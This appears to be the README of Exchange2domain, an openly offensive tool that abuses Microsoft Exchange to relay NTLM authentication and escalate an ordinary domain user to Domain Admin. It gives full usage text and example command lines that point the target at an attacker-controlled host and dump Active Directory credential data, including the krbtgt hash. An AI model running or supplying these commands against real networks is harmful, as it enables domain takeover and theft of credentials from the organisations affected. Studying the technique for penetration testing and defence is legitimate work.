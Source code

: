 # Exchange2domain

All in One tools of [privexchange](https://github.com/dirkjanm/privexchange/) . You only need to open the web server port, so **no high privileges are required**.

Great writeup! [Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/).

## Requirements
These tools require [impacket](https://github.com/SecureAuthCorp/impacket). You can install it from pip with `pip install impacket`.

## Usage
```
usage: Exchange2domain.py [-h] [-u USERNAME] [-d DOMAIN] [-p PASSWORD]
                          [--hashes HASHES] [--no-ssl]
                          [--exchange-port EXCHANGE_PORT] -ah ATTACKER_HOST
                          [-ap ATTACKER_PORT] -th TARGET_HOST
                          [-exec-method [{smbexec,wmiexec,mmcexec}]]
                          [--exchange-version EXCHANGE_VERSION]
                          [--attacker-page ATTACKER_PAGE]
                          [--just-dc-user USERNAME] [--debug]
                          HOSTNAME

Exchange your privileges for Domain Admin privs by abusing Exchange. Use me
with ntlmrelayx

positional arguments:
  HOSTNAME              Hostname/ip of the Exchange server

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --user USERNAME
                        username for authentication
  -d DOMAIN, --domain DOMAIN
                        domain the user is in (FQDN or NETBIOS domain name)
  -p PASSWORD, --password PASSWORD
                        Password for authentication, will prompt if not
                        specified and no NT:NTLM hashes are supplied
  --hashes HASHES       LM:NLTM hashes
  --no-ssl              Don't use HTTPS (connects on port 80)
  --exchange-port EXCHANGE_PORT
                        Alternative EWS port (default: 443 or 80)
  -ah ATTACKER_HOST, --attacker-host ATTACKER_HOST
                        Attacker hostname or IP
  -ap ATTACKER_PORT, --attacker-port ATTACKER_PORT
                        Port on which the relay attack runs (default: 80)
  -th TARGET_HOST, --target-host TARGET_HOST
                        Hostname or IP of the DC
  -exec-method [{smbexec,wmiexec,mmcexec}]
                        Remote exec method to use at target (only when using
                        -use-vss). Default: smbexec
  --exchange-version EXCHANGE_VERSION
                        Exchange version of the target (default: Exchange2013,
                        choices:Exchange2010,Exchange2010_SP1,Exchange2010_SP2
                        ,Exchange2013,Exchange2013_SP1,Exchange2016)
  --attacker-page ATTACKER_PAGE
                        Page to request on attacker server (default:
                        /privexchange/)
  --just-dc-user USERNAME
                        Extract only NTDS.DIT data for the user specified.
                        Only available for DRSUAPI approach.
  --debug               Enable debug output
```

example:
```
python Exchange2domain.py -ah attackterip   -ap listenport -u user -p password -d domain.com -th DCip MailServerip 
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20190129132650.png)



If you only want to dump `krbtgt`, use `--just-dc-user`.

example:
```
python Exchange2domain.py -ah attackterip -u user -p password -d domain.com -th DCip  --just-dc-user krbtgt MailServerip
```